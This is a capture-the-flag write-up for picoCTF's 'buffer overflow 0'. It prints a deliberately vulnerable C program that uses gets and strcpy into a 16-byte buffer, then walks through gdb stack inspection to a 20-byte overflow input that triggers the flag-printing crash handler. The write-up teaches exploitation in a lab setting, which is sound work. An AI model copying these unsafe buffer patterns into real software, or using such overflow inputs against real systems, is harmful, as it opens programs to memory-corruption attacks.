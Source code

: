 # picoCTF buffer overflow 0

This is the 'buffer overflow 0' level from picoCTF. It can be found here, along with the binary source code. 

Let's take a look at the code first:

```
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <signal.h>

#define FLAGSIZE_MAX 64

char flag[FLAGSIZE_MAX];

void sigsegv_handler(int sig) {
  printf("%s\n", flag);
  fflush(stdout);
  exit(1);
}

void vuln(char *input){
  char buf2[16];
  strcpy(buf2, input);
}

int main(int argc, char **argv){

  FILE *f = fopen("flag.txt","r");
  if (f == NULL) {
    printf("%s %s", "Please create 'flag.txt' in this directory with your",
                    "own debugging flag.\n");
    exit(0);
  }

  fgets(flag,FLAGSIZE_MAX,f);
  signal(SIGSEGV, sigsegv_handler); // Set up signal handler

  gid_t gid = getegid();
  setresgid(gid, gid, gid);


  printf("Input: ");
  fflush(stdout);
  char buf1[100];
  gets(buf1);
  vuln(buf1);
  printf("The program will exit now\n");
  return 0;
}
```

After the validation for the 'flag.txt' file, there's this line `signal(SIGSEGV, sigsev_handler);i` which will call the 'sigsegv_handler' if the signal 'SIGSEGV' is received. 

This function is the one in charge of printing the flag.

So, we basically need to get a 'SIGSEGV' to occur, and we'll get the flag. 

Let's see what else the process is doing. 

We see that it's capturing our input with the `gets(buf1)` line, and then pass that value into vuln.

If we look the 'gets' man page, it says:
*DESCRIPTION*
Never use this function.

The issue with 'gets' is that you can tell how many characters it'll read, creating the perfect scenario for a buffer overflow vulnerability. 

So, we have a buffer for 'buf1' of 100 bytes, and then we're calling gets, allowing the user to send as many chars as wanted.

The program should be using "fgets" instad, where you can specify how many chars you want to read. 

After this, it calls the 'vuln' function, where it'll copy our input, into a 16 bytes variable 'buf2'. 

Let's put a breakpoint right after the call to 'gets', to see what's on the stack.
```
gdb ./vuln
(gdb) b *main+230
run
```
It prompts for an input, so let's do "AAAA". And then continue until the breakpoint right after the gets:
```C
  0x56556463 <main+00e1>      call   0x56556130 <gets@plt>
→ 0x56556468 <main+00e6>      add    esp, 0x10
```
If we inspect the stack with `x/20wx $esp`, we can see the 20 words at the stack. (ESP is the stack pointer for 32 bits).

```
gef➤  x/20wx $esp
0xffffce80:     0xffffce94      0x000003e8      0x000003e8      0x5655641f
0xffffce90:     0x00000000      0x41414141      0x00000000      0xf7ffd000
0xffffcea0:     0xf7fc4540      0xffffffff      0x56555034      0xf7fc66d0
0xffffceb0:     0xf7ffd608      0x0000000c      0xffffcf1c      0xffffd0d8
0xffffcec0:     0x00000000      0x00000000      0x01000000      0x0000000c
```

At `0xffffce94` we see the 4 'A' we input. And at `0xffffcea8` is the return address (an address that points to where to come back, in this case, an address in main). 

So. If the substract the address of the start of our input from the address that contains the return value, we have 
`0xffffcea8 - 0xffffce94 = 0x14` which is 20 bytes. 

So. If we input 20 bytes of data, we can overwrite the return address, causing this way a SIGSEGV signal. 

Let's try it by running once again the program, but with this new information. 

```
mfumega@pwn-boy:/tmp/here$ ./vuln
Input: AAAAAAAAAAAAAAAAAAAA
mock{This_is_a_mock_flag}
```

And we got the local flag. We can do the same agaisnt the remote process, and get the flag aswell. 


